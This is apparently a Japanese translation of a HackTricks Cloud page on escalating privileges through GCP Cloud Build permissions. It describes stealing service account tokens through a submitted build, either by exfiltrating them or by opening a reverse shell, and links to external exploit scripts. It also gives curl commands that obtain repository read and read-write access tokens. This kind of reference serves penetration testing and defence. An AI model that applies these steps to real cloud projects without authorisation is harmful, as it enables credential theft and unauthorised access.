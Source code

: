 # GCP - Cloudbuild Privesc

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>を通じてゼロからヒーローまでAWSハッキングを学びましょう！</summary>

HackTricksをサポートする他の方法:

- **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
- [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を入手する
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[NFTs](https://opensea.io/collection/the-peass-family)のコレクションを見つける
- **💬 [Discordグループ](https://discord.gg/hRep4RUj7f)**に参加するか、[telegramグループ](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)をフォローする
- **ハッキングトリックを共有するには、[HackTricks](https://github.com/carlospolop/hacktricks)と[HackTricks Cloud](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください**

</details>

## cloudbuild

Cloud Buildに関する詳細情報は次を参照してください：

{% content-ref url="../gcp-services/gcp-cloud-build-enum.md" %}
[gcp-cloud-build-enum.md](../gcp-services/gcp-cloud-build-enum.md)
{% endcontent-ref %}

### `cloudbuild.builds.create`

この権限を持つと、**クラウドビルドを送信**できます。クラウドビルドマシンには、**デフォルトでクラウドビルドサービスアカウントのトークン**がファイルシステムにあります: `<PROJECT_NUMBER>@cloudbuild.gserviceaccount.com`。ただし、クラウドビルド構成でプロジェクト内の**任意のサービスアカウントを指定できます**。\
したがって、マシンにトークンをサーバーに外部移行させるか、**マシン内でリバースシェルを取得してトークンを取得**することができます（トークンを含むファイルは変更される可能性があります）。

元のエクスプロイトスクリプトは[**こちらのGitHub**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudbuild.builds.create.py)にあります（ただし、トークンを取得する場所が私には機能しませんでした）。したがって、[**脆弱性環境の作成、エクスプロイト、クリーニングを自動化するスクリプト**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/f-cloudbuild.builds.create.sh)と、クラウドビルドマシン内でリバースシェルを取得して[**ここから盗む**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/f-cloudbuild.builds.create.py)ためのPythonスクリプト（コード内で他のサービスアカウントを指定する方法が記載されています）を確認してください。

詳細な説明については、[https://rhinosecuritylabs.com/gcp/iam-privilege-escalation-gcp-cloudbuild/](https://rhinosecuritylabs.com/gcp/iam-privilege-escalation-gcp-cloudbuild/)を訪問してください。

### `cloudbuild.builds.update`

**おそらく**この権限を持つと、**クラウドビルドを更新し、以前の権限で行われたようにサービスアカウントトークンを盗む**ことができるかもしれません（ただし、残念ながら、この執筆時点ではそのAPIを呼び出す方法が見つかりませんでした）。

TODO

### `cloudbuild.repositories.accessReadToken`

この権限を持つユーザーは、リポジトリにアクセスするために使用される**読み取りアクセストークン**を取得できます：

{% code overflow="wrap" %}
```bash
curl -X POST \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
-H "Content-Type: application/json" \
-d '{}' \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>/repositories/<repo-id>:accessReadToken"
```
### `cloudbuild.repositories.accessReadWriteToken`

この権限を持つユーザーは、リポジトリにアクセスするために使用される**読み取りおよび書き込みアクセス トークン**を取得できます。
```bash
curl -X POST \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
-H "Content-Type: application/json" \
-d '{}' \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>/repositories/<repo-id>:accessReadWriteToken"
```
### `cloudbuild.connections.fetchLinkableRepositories`

この権限を持つと、**接続がアクセスできるリポジトリを取得できます:**
```bash
curl -X GET \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>:fetchLinkableRepositories"
```
{% endcode %}

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong>を使用して、ゼロからヒーローまでAWSハッキングを学びましょう！</summary>

HackTricksをサポートする他の方法：

- **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
- [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を入手する
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)コレクションを見つける
- **💬 [Discordグループ](https://discord.gg/hRep4RUj7f)**に参加するか、[telegramグループ](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)をフォローする
- **ハッキングトリックを共有するために、[HackTricks](https://github.com/carlospolop/hacktricks)と[HackTricks Cloud](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出する**。 

</details>
